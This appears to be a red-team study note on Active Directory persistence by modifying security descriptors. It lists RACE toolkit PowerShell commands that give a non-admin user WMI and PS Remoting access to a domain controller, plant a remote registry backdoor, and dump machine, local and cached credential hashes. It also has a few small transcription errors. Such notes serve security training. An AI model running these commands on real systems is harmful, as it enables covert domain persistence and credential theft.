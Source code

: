 ```yaml
---
tags:
  - persistence
cssclasses:
  - persistence-using-ACLs
  - RACE-toolkit
  - WMI
  - Registry
---
```

- It is possible to modify Security Descriptors (security information like Owner, primary group, D[[Access Control Model]], SACL) of multiple remote access methods (securable objects) to allow access to non-admin users
- A very effective backdoor mechanism
- Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
	`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
	
- ACE for built-in administrators for WMI namespaces
	`A;Cl;CCDCLCSWRPWPRCWD;;;SID`
- ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:
	`C:\AD\Tools\RACE-master\RACE.ps1`

#### Using WMI

```powershell title:"Locally"
Set-RemoteWMI -SamAccountName username -Verbose
```

```powershell title:"On remote machine"
Set-RemoteWMI -SamAccountName username -ComputerName domain-controller -namespace 'root\cimv2'
```

```powershell title:"On remote machine with explicit credentials. Only root\cimv2 and nested namespaces"
Set-RemoteWMI -SamAccountName username -ComputerName domain-controller -Credential Administrator -namespace 'root\cimv2' -Verbose
```

```powershell title:"On remote machine remove permissions"
Set-RemoteWmi -SamAccountName username -ComputerName domain-controller-namespace 'root\cimv2' -Remove -Verbose
```

#### Using RACE toolkit

###### PS Remoting backdoor

```powershell title:"Locally"
Set-RemotePSRemoting -SamAccountName username -Verbose
```

```powershell title:"On remote machine"
Set-RemotePSRemoting -SamAccountName username -ComputerName domain-controller -Verbose
```

```powershell title:"On remote machine, remove permissions"
Set-RemotePSRemoting -SamAccountName username -ComputerName domain-controller -Remove
```

###### Remote Registry

```powershell title:"Place backdoor in registry remotely"
Add-RemoteRegBackdoor -Computername domain-controller -Trustee username -Verbose
```

```powershell title:"Retrieve machine account hash from initial foothold"
Get-RemoteMachineAccountHash -ComputerName domain-controller -Verbose
```

```powershell title:"Retrieve local account hash on the remote machine"
Get-RemoteLocalAccountHash -ComputerName domain-controller -Verbose
```

```powershell title:"Retrieve domain cached credentials on the remote machine"
Get-RemoteCachedCredential -ComputerName domain-controller -Verbose
```

